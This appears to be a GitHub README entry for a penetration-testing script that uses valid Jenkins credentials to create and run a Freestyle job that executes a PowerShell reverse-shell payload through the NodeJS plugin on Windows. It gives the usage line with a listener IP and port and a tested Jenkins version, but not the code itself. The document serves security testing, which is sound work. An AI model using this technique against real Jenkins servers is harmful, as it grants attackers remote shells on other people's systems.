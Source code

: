 ## win_revshell_nodejs.py
This script is useful when you have valid credentials and want to check if it can be use to spawn a reverse shell.\
The Jenkins server must be installed on Windows. Windows must have [NodeJS](https://nodejs.org/en/download) application installed. Additionally, Jenkins must have the "[nodejs](https://plugins.jenkins.io/nodejs/)" plugin installed.\
To be able to receive a reverse shell, the user must have BUILD and JOB CREATION privileges.\
Once logged in on Jenkins, the script creates a new **"Freestyle project"** JOB.\
![win_revshell_nodejs_1](https://github.com/stevenvegar/Jenkins_scripts/blob/main/win_revshell_nodejs.py/images/win_revshell_nodejs_1.png)

Then configures or BUILD it to "Execute NodeJS script" with the **Powershell** payload.\
![win_revshell_nodejs_2](https://github.com/stevenvegar/Jenkins_scripts/blob/main/win_revshell_nodejs.py/images/win_revshell_nodejs_2.png)

Finally, the script sends the instruction to execute this JOB.

USAGE:
python3 ./win_revshell_nodejs.py -w URL -r LOCAL_IP -rp LOCAL_PORT
![win_revshell_nodejs_3](https://github.com/stevenvegar/Jenkins_scripts/blob/main/win_revshell_nodejs.py/images/win_revshell_nodejs_3.png)
![win_revshell_nodejs_4](https://github.com/stevenvegar/Jenkins_scripts/blob/main/win_revshell_nodejs.py/images/win_revshell_nodejs_4.png)

Tested on Jenkins 2.150.2 and Windows 10 Pro 22H2 b.19045
